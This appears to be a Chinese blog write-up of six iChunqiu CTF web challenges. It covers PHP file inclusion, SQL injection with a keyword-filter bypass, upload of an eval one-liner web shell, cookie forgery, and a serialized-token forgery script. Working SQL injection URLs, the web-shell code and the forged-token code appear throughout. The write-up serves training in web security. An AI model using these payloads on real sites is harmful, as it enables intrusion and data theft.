<!--yml
category: 未分类
date: 2022-04-26 14:32:45
-->

# I春秋CTF训练营web题解（一）_Super_Yiang的博客-CSDN博客

> 来源：[https://blog.csdn.net/Super_Yiang/article/details/82391768](https://blog.csdn.net/Super_Yiang/article/details/82391768)

# I春秋CTF训练营web题解（一）

#### （1）include

==hint：没错！就是文件包含漏洞.==

点开链接，发现



通过源码可知可以提交一个path的变量，通过ctrl+f搜索allow_url_include，发现是打开状态：



所以打开火狐浏览器，用hackbar工具输入：



发现存在疑似含有flag的文件



接着使用php://filter协议查看曝露出来的文件的内容，因为PHP文件是在不能直接显示的，所以使用了base64编码显示



然后解码就可以得到flag了



#### （2）SQL

==hint：出题人就告诉你这个是个注入，有种别走！==

创建链接点进去，然后查看源码



很明显知道用sql注入，用火狐hackbar进行手动注入，先爆字段

```
http://4416038693a84c979b378d558565548a72402f0bf1e44e3d.game.ichunqiu.com/index.php?id=1 order by 4
```



说明存在过滤，试试/**/，关键词大写，不行，然后尝试<>发现可以

```
http://4416038693a84c979b378d558565548a72402f0bf1e44e3d.game.ichunqiu.com/index.php?id=1 ord<>er by 4
```



没出现结果，所以接下来继续爆字段,4不对就二分法换2，然后发现还是没结果，换3有了

```
http://4416038693a84c979b378d558565548a72402f0bf1e44e3d.game.ichunqiu.com/index.php?id=1 ord<>er by 2
```

```
http://4416038693a84c979b378d558565548a72402f0bf1e44e3d.game.ichunqiu.com/index.php?id=1 ord<>er by 3
```



然后输入

```
http://4416038693a84c979b378d558565548a72402f0bf1e44e3d.game.ichunqiu.com/index.php?id=1 union se<>lect 1,2,3 from info
```



说明第二个字段可以显示，那么接下来就是爆数据库名，表名，列名:

①爆数据库名

```
http://4416038693a84c979b378d558565548a72402f0bf1e44e3d.game.ichunqiu.com/index.php?id=1 union se<>lect 1,database(),3 from info
```

②爆表名

```
http://4416038693a84c979b378d558565548a72402f0bf1e44e3d.game.ichunqiu.com/index.php?id=1 union se<>lect 1,table_name,3 from information_schema.tables where table_schema='sqli'
```

③爆列名

```
http://4416038693a84c979b378d558565548a72402f0bf1e44e3d.game.ichunqiu.com/index.php?id=1 union se<>lect 1,column_name,3 from information_schema.columns where table_name='sqli'
```

发现疑似存在flag的列

```
http://4416038693a84c979b378d558565548a72402f0bf1e44e3d.game.ichunqiu.com/index.php?id=1 union se<>lect 1,flAg_T5ZNdrm,3 from sqli.info
```

flag就出来了。

#### （3）Do you know upload

==hint：加油吧，少年。==

创建链接，点开



很明显文件上传，试着上传已经写好的PHP一句话木马

```
<?php eval($_POST['a']);?>
```

然后改为jpg格式上传抓包，并改为php后缀就可以成功上传。



因为我之前已经成功上传过了1.php文件，显示已存在，如果是第一次上传就会显示路径：upload/1.php



然后就是菜刀连接，打开



发现config.php和ctf.sql，flag应该存在数据库中，点开config.php可以看到数据库的信息



然后用菜刀编写shell连接到数据库查看flag。

#### （4）broken

==hint：you got a file,but…==

点开链接，发现file是个超链接，点进去



一看jother编码，放进浏览器控制台，发现末尾少了一个]，加上后出现错误



于是删除最后面的()，再次输入得到[Array(1)]，打开就可以看到flag了。

#### （5）who are you?

==hint：我是谁，我在哪，我要做什么？==

点开链接进去，显示


然后抓包发现cookie参数有问题



猜测是base64编码，拿去解码得



是Rot13，运行脚本解码得到guest，尝试将guest换成admin用脚本进行Rot13加密得到Zjo1OiJucXp2YSI7，再重新放入cookie中



可以看到已经成功登陆并且说可以上传，旁边有一条注释

 `所以将请求包改成POST形式，然后输入

```
filename=2.php&data[]=<?php eval($_POST['a']);?>
```

再次提交



找到路径，输入进去看看就可以得到flag。

#### （6）Login

==hint：加油，我看好你==

点开链接，是一个登录界面



做web题习惯性的点开页面源代码看，发现一行注释，虽然在页面下面



猜测是账号密码，输入登录发现成功登录，然而登录了并没有什么东西，抓包看看



发现member.php这页刷新返回包中有一个show参数，猜测可以show source，所以改包，加上一个show参数并设为1



发现真的出现了源码

```
if(isset($requset['token']))
    {
        $login = unserialize(gzuncompress(base64_decode($requset['token'])));
        $db = new db();
        $row = $db->select('user=\''.mysql_real_escape_string($login['user']).'\'');
        if($login['user'] === 'ichunqiu')
        {
            echo $flag;
        }else if($row['pass'] !== $login['pass']){
            echo 'unserialize injection!!';
        }else{
            echo "(╯‵□′)╯︵┴─┴ ";
        }
```

重要的就是这段,编写代码

```
<?php
$a=array('user'=>'ichunqiu');
$a=base64_encode(gzcompress(serialize($a)));
echo $a
?>
```

运行得到token


然后放到cookie中提交就可以得到flag。`